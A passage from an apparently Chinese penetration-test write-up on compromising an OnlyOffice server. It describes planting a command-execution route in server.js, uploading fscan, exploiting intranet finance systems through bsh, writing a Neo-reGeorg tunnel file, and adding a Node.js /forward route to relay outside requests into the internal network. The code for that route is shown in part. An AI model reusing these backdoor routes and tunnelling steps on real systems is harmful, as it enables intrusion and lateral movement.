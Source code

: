 ```typescript
    })
   }
  });
```

在DocService/sources/server.js中，新增了一个如上的runExec.json路由，用于命令执行直接回显。

最开始为了实现nodejs命令执行回显，直接从网上复制了一段child_process.execSync命令执行的代码，差点被这个坑死，execSync在子进程完全关闭之前不会返回。导致在通过execSync命令执行curl一个不存在的站时会等待一段时间，这时候OnlyOffice这web就直接卡死访问不到了，还好curl默认会一段时间超时结束掉，如果执行了ping xx或者运行了一个无返回的elf会直接导致站挂掉，吓得赶紧把execSync换成spawn。

**3**►

**搭建代理直通内网**

通过 /runExec.json 命令执行，验证了目标确实各种协议都无法出网，为了进行内网渗透肯定得搭建代理。

在常规渗透中如果目标无法出网，通常会使用Neo-Regeorg等工具落地脚本文件实现代理进行内网渗透，但是很尴尬的是Neo-Regeorg并未提供js的脚本。Regeorg倒提供了JS版本https://github.com/sensepost/reGeorg/blob/master/tunnel.js ，但是实测问题很多没法使用。为了解决这个问题，我们开始吭哧吭哧的改Nodejs版的Neo-Regeorg，折腾了一两天改出来的Nodejs版Neo存在Bug只能代理HTTP流量，HTTPS、SSH等服务都有问题，也没发现是哪出的问题，然后就暂时搁置了这套方案。

在没有内网代理的情况下，内网渗透搁置了下来，大概思考了下，想出了三个方案：

1、继续修改Neo-Regeorg

2、通过命令执行，利用curl横移拿下一些机器后可能存在能够出网的机器

3、做WebSocket代理 （没找到现成合适的工具）

为了实现curl横向，先通过命令执行写入了一个fscan的base64到OnlyOffice机器上，直接开扫。

很幸运的是直接扫到了一些存在漏洞的财务系统，直接利用bsh实现了命令执行，但是很尴尬，拿了好几台内网的机器依然都是各种协议无法出网，再次陷入僵局。

虽然横向的机器也无法出网，不过该Web应用是Java，所以能直接使用现成的Neo-Regeorg。那么可以落地一个Neo-Regeorg到该Java系统上，虽然外网无法访问到，可以通过OnlyOffice新增一个转发路由，将外网的HTTP请求直接转发到内网该系统上。

通过bsh写Neo-Regeorg，直接new java.io.FileOutputStream("path").write(bytes)写文件即可。

虽然开发比较菜导致写的Nodejs版Neo-Regeorg一直有问题，但是转发HTTP请求的Nodejs代码还是非常简单的，只需要原样将uri，headers，body转发到java服务器上，再原样将response拿回来即可。

```javascript
  app.all('/forward', function(req, res){

   let forwardHost = req.header("forwardHost");
   let forwardPort = req.header("forwardPort");
   let forwardPath = req.header("forwardPath");

   if(!forwardHost || !forwardPort || !forwardPath){
    return res.end("empty para");
   }else {
    let body = '';
    req.on('data', function (chunk) {
     body += chunk;
    });

    req.on('end', function () {
     let options = {
      method: req.method,
      host: forwardHost,
      port: forwardPort,
      path: forwardPath,
      headers: req.headers,
      timeout: 5000,
     }

     try {
      var callback = function (response) {
       var body = '';
       response.on('data', function (chunk) {
```